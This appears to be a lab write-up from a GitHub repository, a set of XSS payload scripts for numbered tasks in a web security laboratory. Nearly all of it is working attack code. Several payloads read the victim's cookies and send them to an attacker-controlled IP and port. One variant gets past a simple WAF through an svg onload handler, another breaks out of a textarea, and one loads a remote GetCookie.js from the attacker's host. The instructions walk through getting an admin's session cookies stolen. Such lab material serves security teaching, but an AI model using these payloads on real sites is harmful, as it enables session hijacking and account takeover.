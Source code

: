 # Second Laboratory (XSS) Scripts

### Get Own Cookies On Search (Task 1.2):

```html
<script>
    document.write(document.cookie);
</script>
```

- Search above Script

---

### Steal Admin's Cookies On Bug / Feature Report (Task 1.4):

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF (Task 2.1):

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On BlogPosts Review (Task 3.2):

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Post above Script as Blog Content

---

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts (Task 3.3):

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js">
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (*GetCookie.js* Domain)
- Post above Script as Blog Content

#### *GetCookie.js*

```js
const HTTP = new XMLHttpRequest();
const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
HTTP.open('GET', URL, false);
HTTP.send();
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)

---

